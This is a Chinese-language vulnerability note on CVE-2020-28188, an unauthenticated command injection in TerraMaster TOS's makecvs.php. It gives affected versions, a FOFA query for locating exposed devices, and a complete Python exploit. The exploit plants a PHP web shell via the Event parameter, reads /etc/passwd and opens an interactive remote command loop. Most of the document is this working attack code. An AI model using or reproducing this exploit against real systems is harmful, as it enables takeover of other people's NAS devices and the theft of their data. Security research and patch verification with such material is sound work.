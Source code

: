 # TerraMaster TOS makecvs.php 远程命令执行漏洞 CVE-2020-28188

## 漏洞描述

TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器

## 漏洞影响

```
TerraMaster TOS < 4.2.06
```

## FOFA

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登录页面如下

![image-20220524154542769](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241545906.png)

存在漏洞的为 `/include/makecvs.php` 中的Event参数

使用EXP文件上传并执行命令

![image-20220524154555472](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241545575.png)

## 漏洞POC

```
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
```